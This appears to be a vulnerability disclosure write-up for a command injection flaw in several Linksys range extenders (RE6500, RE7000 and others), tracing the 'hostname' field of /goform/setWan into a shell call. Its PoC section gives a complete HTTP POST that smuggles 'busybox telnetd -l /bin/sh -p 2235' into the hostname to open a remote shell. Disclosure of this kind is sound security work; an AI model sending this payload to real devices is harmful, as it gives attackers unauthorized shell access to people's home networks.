





# Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500


## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `sub_3517C` function, `hostname` is directly passed by the attacker, so we can control the `hostname` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"></div>

<div  align="center"></div>

<div  align="center"></div>

`mod_form.so->internet.sh->um_red`

In `um_red` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"></div>

<div  align="center"></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `hostname` as **`busybox telnetd -l /bin/sh -p 2235`** , and the router will excute it,such as:

```http
POST /goform/setWan HTTP/1.1
Host: extender.linksys.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Origin: http://extender.linksys.com
Connection: close
Referer: http://extender.linksys.com/admin/log.shtml
Cookie: session_id=AnN5TD0hy6ydUJ4D3PAQEaHuYKCoS5nc
Upgrade-Insecure-Requests: 1

connectionType=DHCP&manuallyDNS=&staticPriDns=&staticSecDns=&FriendlyName=&hostname=`busybox telnetd -l /bin/sh -p 2235`
```


## Result

Get a shell!

<div  align="center"></div>

